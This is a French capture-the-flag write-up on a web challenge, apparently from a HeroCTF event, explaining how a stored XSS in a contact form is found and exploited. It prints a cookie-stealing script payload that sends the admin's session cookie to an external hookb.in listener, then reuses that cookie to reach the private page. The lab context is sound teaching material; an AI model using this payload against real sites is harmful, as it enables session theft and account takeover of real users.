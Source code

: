 <h1>Contact Me !</h1>

<h4>Description :</b> Un petit développeur a mis en place un serveur où vous pouvez le contacter.
Malheureusement, une des pages n'est pas accessible, et j'ai vraiment envie de savoir ce qu'elle cache... Vous pouvez le faire pour moi ?</h4>

Quand on voit le titre du challenge, on imagine assez facilement qu'il va falloir effectuer une attaque de type XSS pour pouvoir avoir accès à la page secrête.
En allant sur la page, elle revoie : <b>This page is PRIVATE!</b>

On essaye une attaque de base pour vérifier que les scripts sont exécutés par la page :
`<script>alert(1)</script>`

Le script fonctionne !
Pour accèder à la page secrète, il va sûrement falloir voler le cookie de l'administrateur.
Comme les scripts sont éxécutés par l'admin, si on écrit un payload pour renvoyer le cookie de la page, celui qui va être renvoyé le sien.

Payload : <br/>
`<script>document.write('<img src="https://hookb.in/9X1qnEMbdnI600eMoWM7?cookie='+document.cookie+'">I'm a cookie stealer :p</img>');</script>`

Ce script permet de dermander à l'administrateur de renvoyer le cookie à l'adresse `https://hookb.in/9X1qnEMbdnI600eMoWM7` qui est un écouteur de requêtes.

Après envoi du payload, on retrouve bien sur l'endpoint le cookie renvoyé par l'admin : <br/> 
`cookie: PHPSESSID=3f1f8431f0ed4202893dc4cb19a36021`

Au niveau du referer dans la requête c'est intéressant de voir cela : <br/>
`referer: http://localhost/index.php?botSenpai=sess_93db8da8292c8ce9bd44f193450eb8f2`

On peut maintenant essayer de se connecter à la page admin.php en changean notre cookie.

Et voilà le flag : `Hero{b3_c4r3ful_w1th_xss_!!}`
